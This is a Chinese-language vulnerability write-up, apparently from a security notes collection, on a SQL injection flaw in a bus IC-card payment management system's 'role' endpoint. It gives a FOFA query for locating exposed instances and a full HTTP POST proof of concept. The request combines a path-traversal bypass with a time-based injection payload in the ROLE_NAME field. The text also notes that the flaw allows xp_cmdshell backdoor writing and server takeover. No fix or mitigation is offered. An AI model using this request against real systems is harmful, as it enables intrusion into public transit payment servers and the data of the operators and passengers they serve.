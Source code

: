 # 公交IC卡收单管理系统role存在SQL注入漏洞

# 一、漏洞简介
公交IC卡收单管理系统是城市公共交通领域中不可或缺的一部分，它通过集成先进的集成电路技术（IC卡）实现了乘客便捷的支付方式，并有效提高了公共交通运营效率。系统集成了发卡、充值、消费、数据采集、查询和注销等多个功能模块，为公交公司和乘客提供了全面、高效、便捷的公共交通支付解决方案。该系统不仅提升了乘客的出行体验，还降低了公交公司的运营成本，提高了管理效率。公交IC卡收单管理系统 role存在SQL注入漏洞。经过身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

# 二、影响版本
+ 公交IC卡收单管理系统

# 三、资产测绘
+ fofa`app="公交IC卡收单管理系统"`
+ 特征

![1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5.png](./img/dyW3C6ThOGt0sRum/1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5-157372.png)

# 四、漏洞复现
```java
POST /assets/..;/role HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
 
_search=false&nd=1727245571646&rowCountPerPage=10&pageNo=1&sidx=ROLE_NAME&sord=asc&method=select&ROLE_NAME=1');WAITFOR DELAY '0:0:5'--
```

![1727274105161-0d35d76a-8101-4198-9b0a-9606dbc0777f.png](./img/dyW3C6ThOGt0sRum/1727274105161-0d35d76a-8101-4198-9b0a-9606dbc0777f-800904.png)



> 更新: 2024-10-22 09:36:09  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lntxyx716eea8fw2>